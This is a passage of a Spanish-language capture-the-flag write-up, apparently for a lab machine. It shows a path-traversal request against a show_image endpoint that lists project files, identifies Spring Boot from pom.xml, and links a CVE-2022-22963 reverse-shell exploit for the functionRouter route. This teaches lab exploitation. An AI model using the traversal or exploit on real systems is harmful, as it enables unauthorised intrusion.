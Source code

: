 ```xml
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
```

Si tratamos de contectarnos por el servicio `ssh`, las credenciales no son correctas, y si ahora listamos dos directorios atras, encontramos otro archivo `pom.xml`.

```bash
❯ curl -s -X GET "http://10.10.11.204:8080/show_image?img=../../../"
.classpath
.DS_Store
.idea
.project
.settings
HELP.md
mvnw
mvnw.cmd
pom.xml
src
target
```

Si vemos el contenido vemos que esta relacionado a `spring framework`.

```xml
❯ cat pom.xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
	xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
	<modelVersion>4.0.0</modelVersion>
	<parent>
		<groupId>org.springframework.boot</groupId>
		<artifactId>spring-boot-starter-parent</artifactId>
		<version>2.6.5</version>
		<relativePath/> <!-- lookup parent from repository -->
```

> Spring Framework : Spring es un framework para el desarrollo de aplicaciones y contenedor de inversión de control, de código abierto para la plataforma Java.​ La primera versión fue escrita por Rod Johnson, quien lo lanzó junto a la publicación de su libro Expert One-on-One J2EE Design and Development. 


Si buscamos un poco encontramos un exploit que nos otorga `RCE`.

* [https://github.com/J0ey17/CVE-2022-22963_Reverse-Shell-Exploit](https://github.com/J0ey17/CVE-2022-22963_Reverse-Shell-Exploit)


Si abrimos el explit, observamos que este se aprovecha de una ruta `functionRouter` y envia un payload diseñado a traves de los headers donde ejecuta finalmente un comando.
